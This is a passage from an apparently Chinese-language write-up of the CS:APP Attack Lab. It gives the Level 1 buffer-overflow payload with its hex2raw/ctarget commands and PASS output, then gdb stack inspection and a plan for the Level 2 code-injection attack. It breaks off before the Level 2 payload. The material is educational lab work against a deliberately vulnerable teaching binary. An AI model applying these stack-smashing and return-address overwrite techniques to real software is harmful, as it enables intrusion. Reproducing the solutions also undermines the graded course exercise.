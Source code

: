 ```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00
```

通过命令转化为字符后作为标准输入即可：

```bash
root@2e753e36cee9:/csapp/lab/target1# ./hex2raw < exploit1.txt > exploit-raw1.txt
root@2e753e36cee9:/csapp/lab/target1# ./ctarget -q < exploit-raw1.txt
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

即可顺利完成实验。

## Level 2

这部分实验需要注入x86-64汇编代码的二进制形式，转换方法参考附录B。根据要求，我们需要把代码写到char array中。首先我们需要知道写入的地址，从而完成返回跳转。通过查看内存可以发现，当执行`getbuf()`时，栈顶指针`%rsp`指向的地址为`0x5561dc78`，查看`%rsp -> %rsp + 48`这一段内存：

```bash
(gdb) b *0x4017b4
Breakpoint 5 at 0x4017b4: file buf.c, line 16.
(gdb) r -q
Starting program: /csapp/lab/target1/ctarget -q
Cookie: 0x59b997fa
Type string:asd

Breakpoint 5, getbuf () at buf.c:16
16      in buf.c
(gdb) x /48xb $rsp
0x5561dc78:     0x61    0x73    0x64    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19    0x40    0x00    0x00    0x00    0x00    0x00
```

我们函数的返回地址为`0x401976`，可以发现是返回到`test()`函数。为了正确执行`touch2()`函数且确保我们传入的参数和给定的`cookie`值相同（`0x59b997fa`），我们需要将`%rdi`的值设为cookie的值，之后改变返回地址，让程序执行`ret`指令直接跳转到`touch2()`函数中。

由于实验的讲义建议我们不要使用`jmp`或者`call`指令，因此，我们通过修改`ret`的返回地址来进行跳转。

